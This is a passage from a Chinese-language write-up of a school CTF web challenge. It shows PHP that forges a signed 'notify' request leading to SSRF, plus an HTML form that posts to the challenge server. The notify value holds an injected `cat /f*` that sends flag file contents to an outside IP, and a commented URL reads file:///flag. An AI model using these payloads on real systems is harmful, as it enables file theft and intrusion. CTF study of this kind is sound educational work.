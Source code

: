 ```php

$notify='http://47.236.170.130:8081/`cat /f*`';
function upload_notify($url,$param)
    {
        // 生成签名
        //74$res = $this->upload_notify($_GET['notify'],$info);//在这执行
        $sign = sign_params($param);//观察传参行为!
        $param['sign'] = $sign;

        // 请求地址
        $request_url = $url.'?'.urldecode(http_build_query($param));
        echo $request_url;
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $request_url);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, FALSE);
        curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, FALSE);

        $result = curl_exec($ch);//ssrf
        curl_close($ch);
        echo $result;
        return $result;
    }
// $token = 'QiuQIuYyds'; // 已知的 token
// $signature = md5(urldecode(http_build_query($params)) . $token);
// echo sign_params(params: $params);
upload_notify($notify,$params);
// http://121.41.53.189:36446/?uid=aa&notify=file:///flag&sign=fcfd46d234326f64bd3f9b6f97cf3748&file=file:///flag
```

伪造请求发包表单:

```html
<!DOCTYPE html>
<html>
<head>
    <title>文件上传表单</title>
</head>
<body>

<form action="http://121.41.53.189:36739/?uid=index.php&notify=http://47.236.170.130:8081/`cat /f*`&sign=c03ddc84442095751b4122a5652dbf8c" method="post" enctype="multipart/form-data">
    <input type="file" name="file">
    <input type="submit" value="上传文件">
</form>

</body>
</html>
```

分析到这儿了,写作业去了(还有一堆实验报告)    ~悲~

OK,这次CTF校赛初赛就到这了ba.

正常发挥只能算是~

还要继续加油!

